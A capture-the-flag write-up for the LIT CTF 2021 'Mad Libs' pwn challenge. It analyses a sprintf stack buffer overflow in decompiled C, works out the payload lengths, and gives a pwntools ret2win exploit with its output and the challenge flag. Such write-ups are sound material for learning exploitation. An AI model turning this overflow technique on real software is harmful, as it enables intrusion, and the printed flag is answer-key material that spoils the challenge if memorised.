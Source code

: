 # Lexington Informatics Tournament CTF 2021

## pwn/Mad Libs

> Rythm 
> 
> I made a fun mad libs game in C. I even got the formatters all right, at least I think. You should try it out!
> 
> `nc madlibs.litctf.live 1337`
>
> [madlibs_pwn.zip](madlibs_pwn.zip)


Tags: _pwn_ _x86-64_ _bof_ _ret2win_


## Summary

Basic `sprintf` BOF for ret2win.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE, easy ROP.  No canary, easy BOF.  Partial RELRO, easy GOT.


### Decompile with Ghidra

```c
void win(void)
{
  char local_48 [56];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Something is wrong. Please contact Rythm.");
    exit(1);
  }
  fgets(local_48,0x30,local_10);
  puts("Huh, I guess you did win. How does that even work? Well, here\'s the flag:");
  puts(local_48);
  return;
}
```

`win` function included, nice.


```c
void game(void)
{
  char local_108 [128];
  undefined local_88 [64];
  undefined local_48 [64];
  
  puts("First, enter a proper noun.");
  __isoc99_scanf(&%63s,local_48);
  puts("");
  puts("Now, enter an adjective.");
  __isoc99_scanf(&%63s,local_88);
  puts("");
  puts("Now, I\'ll combine them into a great sentence!\n");
  sprintf(local_108,"%s is so %s at deepspacewaifu! I wish I were %s like %s",local_48,local_88,local_88,local_48);
  puts("The final sentence is:");
  printf("\"%s\"\n",local_108);
  puts("");
  return;
}
```

`sprintf` is a buffer overflow vulnerability.

`local_108` is `0x108` from the return address, all that is necessary to get the flag is to overflow the buffer with `0x108` bytes followed by the address of `win`.  Easy.

`sprintf` write to buffer `local_108` the contents of `local_48` and `local_88` twice with `local_48` being last, so that's where we need to put our exploit.

It's important we do not use nulls in our exploit, they will just terminate the strings and `sprintf` will not write out more complex attacks like ROP chains.

Since this binary has no PIE the address for `main`, `game`, and `win` are all 3 bytes and are known, and since `main` called `game`, the return address will only be 3 bytes long.  So, we just need 3 bytes.

The math is pretty simple:  `0x108 + 3` (buffer size + payload) `- 2 * (60+3)` (max size of `local_48` (see `scanf`) is `63`) - `47` (the string `%s is so %s at deepspacewaifu! I wish I were %s like %s` with the `%s` removed).  That equals `94`, divide that by 2 to get the length of `local_88`:

`0x108 + 3 - 2 * 64 - 47 = 94; 94/2 = 47`

> Yeah `47` again, it is just a coincident, you could use `59+3` and `48` if you like 



## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./madlibs')

if args.REMOTE:
    p = remote('madlibs.lit-ctf-2021-2-codelab.kctf.cloud', 1337)
else:
    p = process(binary.path)

payload  = 60 * b'A'
payload += p64(binary.sym.win)[0:3]
payload += 47 * b'B'

p.sendline(payload)
p.stream()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/litctf2021/madlibs_pwn/madlibs'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to madlibs.lit-ctf-2021-2-codelab.kctf.cloud on port 1337: Done
== proof-of-work: disabled ==
I made a quick mad libs game!

First, enter a proper noun.

Now, enter an adjective.

Now, I'll combine them into a great sentence!

The final sentence is:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x92\x11 is so BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB at deepspacewaifu! I wish I were cewaifu! I wish I were BBBBBBBBBBBBBBBBBBBBBBBB like BBBBBB like AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x92\x11"

Huh, I guess you did win. How does that even work? Well, here's the flag:
flag{n0w_1m_k1nd4_m4d_4t_th3_l1bs}
```

